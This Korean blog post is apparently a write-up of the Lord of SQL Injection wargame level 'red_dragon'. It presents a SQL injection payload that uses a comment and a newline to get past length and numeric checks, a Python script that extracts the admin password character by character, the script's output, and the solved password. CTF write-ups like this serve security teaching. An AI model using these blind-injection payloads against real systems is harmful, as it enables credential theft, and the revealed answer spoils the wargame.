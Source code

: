 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - red_dragon 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


정신 차려보니 `green_dragon` 문제를 푼지 벌써 2주가 지나있다.  

그동안 휴가도 다녀오고 휴가를 다녀오느라 못한 일들을 하느라 정신이 없었다.  

`red_dragon`을 오랜만에 풀어보았는데 좀 어려웠다 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

이번엔 `id`와 `no`를 입력 받는다.  

그런데 `id`는 `7글자`를 넘을 수 없고, `no`에는 순전히 `숫자`만 들어갈 수 있다.  

그래서 처음에는 `id가 admin인 행의 no를 찾아보자!`라고 생각했는데, `no`가 아무래도 작은 수는 아닌가보다.  

그리고 문제를 풀려면 정확한 pw의 값이 필요한데, 이 방법으로는 그걸 알아낼 수도 없다.  

한참을 고민했는데 모르겠어서 주변의 `웹잘알`님께 물어보았다.  

그랬더니 아래와 같은 방법을 알려주었다.  

```
?id='||pw>%23&no=%0a0x61
```

이렇게 입력하면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_red_dragon where id=''||pw>#' and no=
0x61
```

`no=` 다음에 `%0a`를 입력했기 때문에 뒤의 `0x61`은 다음 줄에 들어간다.  

`#`은 `MySQL`에서 한 줄 주석 문자이며, `MySQL`에서는 여러 줄에 걸쳐 쿼리를 입력할 수 있다.  

그래서 위의 쿼리문에서 주석처리되는 부분과 개행을 빼고 깔끔하게 정리하면 아래와 같이 된다.  

```
select id from prob_red_dragon where id=''||pw>0x61
```

헤...  

이러면 한 글자 씩 pw를 비교할 수 있다!  

아래는 내 서버에서 테스트 해 본 결과이다.  

```
mysql> select * from user where id='admin' and pw>0x61;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x62;
Empty set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6172;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.01 sec)

mysql> select * from user where id='admin' and pw>0x6174;
Empty set (0.00 sec)
```

위와 같이 pw를 한 글자 씩 비교할 수 있는데, `=`이 아닌 `>`를 통해 비교하고 있기 때문에 결과값이 나오지 않는 순간의 직전 값이 pw의 정확한 값이 된다.  

따라서 문제에서 pw의 값을 `hex` 값으로 비교를 하다가 `Hello admin`이 안나온다면 그 값에서 `-1`을 한 값이 pw가 된다.  

그런데 마지막 글자를 찾을 때는 다르다.  

```
mysql> select * from user where id='admin' and pw>0x6173646177717764;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173646177717765;
Empty set (0.00 sec)
```

위의 예시에서도 알 수 있듯이 마지막 글자는 `Hello admin`이 나오지 않은 값이 정확한 pw의 값이다.  

이를 바탕으로 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = "0x"

url = "http://los.rubiya.kr/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 20):
	found = False
	for i in range(48, 128):
		try:
			query = url + "'||pw>%23&no=%0a" + flag + hex(i)[2:]
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' not in r.text:
			flag += str(hex(i - 1))[2:]
			print "[+] Found " + str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break
	
flag = flag[2:].decode("hex")
flag = flag[:-1] + chr(ord(flag[-1]) + 1)
print "[+] Found password : ", flag
print "[+] End"
```

pw의 길이를 모르기 때문에 일단 20까지 반복문을 돌렸다.  

그리고 마지막 글자는 `Hello admin`이 나오지 않은 그 순간의 값이기 때문에 다시 `+1`을 해 출력 해 주었다.  

그 결과 다음과 같았다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0x41
[+] Found 2 : 0x4135
[+] Found 3 : 0x413533
[+] Found 4 : 0x41353344
[+] Found 5 : 0x4135334444
[+] Found 6 : 0x413533444434
[+] Found 7 : 0x41353344443436
[+] Found 8 : 0x4135334444343640
[+] Found password finished
[+] Found password :  A53DD46A
[+] End
```

이 전의 문제에서도 pw의 값은 소문자였기 때문에 이번에도 아래와 같이 소문자로 입력 해 주었다.  

```
?pw=a53dd46a
```

그 결과 문제를 풀 수 있었다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
------------------------------------------------------------------------------------------

RED_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

`RED_DRAGON Clear!!`